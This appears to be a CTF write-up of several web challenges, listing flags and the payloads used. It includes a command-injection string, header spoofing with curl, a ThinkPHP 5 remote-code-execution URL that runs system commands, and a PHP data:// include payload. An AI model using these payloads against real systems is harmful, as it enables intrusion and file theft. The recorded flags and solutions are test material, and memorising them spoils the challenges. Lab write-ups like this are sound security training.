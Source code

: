 flag: `cyberpeace{4aeb49483011d8e30d982573edd300c5}`

## 难度 2

### command_execution

```
target=127.0.0.1;grep -r "cyberpeace" /
```

flag: `cyberpeace{6f845a5b8b4ea9e965f4459c1ffb7ae5}`

### xff_referer

```shell
$ curl -H "Referer: https://www.google.com" -H "X-Forwarded-For: 123.123.123.123" "http://61.147.171.105:54676/"
<html>
<head>
    <meta charset="UTF-8">
    <title>index</title>
    <link href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" rel="stylesheet" />
    <style>
        body{
            margin-left:auto;
            margin-right:auto;
            margin-TOP:200PX;
            width:20em;
        }
    </style>
</head>
<body>
<p id="demo">ip地址必须为123.123.123.123</p>
<script>document.getElementById("demo").innerHTML="必须来自https://www.google.com";</script><script>document.getElementById("demo").innerHTML="cyberpeace{242e898a3e5921739cd994a45e805b62}";</script></body>
</html>
```

flag: `cyberpeace{242e898a3e5921739cd994a45e805b62}`

### php-rce

```
http://61.147.171.105:57866/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag
```

flag: `flag{thinkphp5_rce}`

### Web_php_include

```
http://61.147.171.105:56692/?page=data://text/plain,<?php echo `base64 fl4gisisish3r3.php` ?>
```
